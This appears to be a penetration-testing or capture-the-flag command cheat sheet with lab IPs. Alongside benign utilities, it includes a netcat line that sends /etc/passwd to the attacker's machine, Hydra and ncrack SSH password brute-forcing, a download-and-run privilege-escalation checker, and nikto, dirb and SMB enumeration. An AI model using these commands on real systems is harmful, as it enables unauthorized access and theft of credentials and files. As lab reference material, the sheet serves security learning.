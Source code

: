 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Grep only usernames from /etc/passwd
`cat /etc/passwd | grep -E '/home/|/root'`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Enumerate directories
`dirb http://10.37.129.11`

##### Enumerate Linux (Gets OS, host, shares, potential usernames)
`enum4linux -a 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### SSH on custom port
`ssh user@10.37.129.11 -p 22222`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Copy file over SCP
```bash
$ scp -r -P 22 username@10.37.129.4:/home/whatever ~/<destination>
$ scp safe root@10.37.129.11:~/<destination>
```

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### NCRACK password enumeration and SSH crack
`ncrack -v –user <username> -P <password_list> ssh://10.37.129.11:22222`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```

##### gzip extract
`tar -xzvf file.tar.gz`

##### DNS quert using nslookup
```bash
## Any records
nslookup -q=any domain.com

## Just specific ones
nslookup -q=TXT site.domain.com
```

##### smbclient scan
`smbclient -L 10.37.129.11`

##### smbclient connect
`smbclient '\\10.37.129.11\<sharename>'`

##### SMB share connect via web browser
`smb://10.37.129.11/<sharename>/`
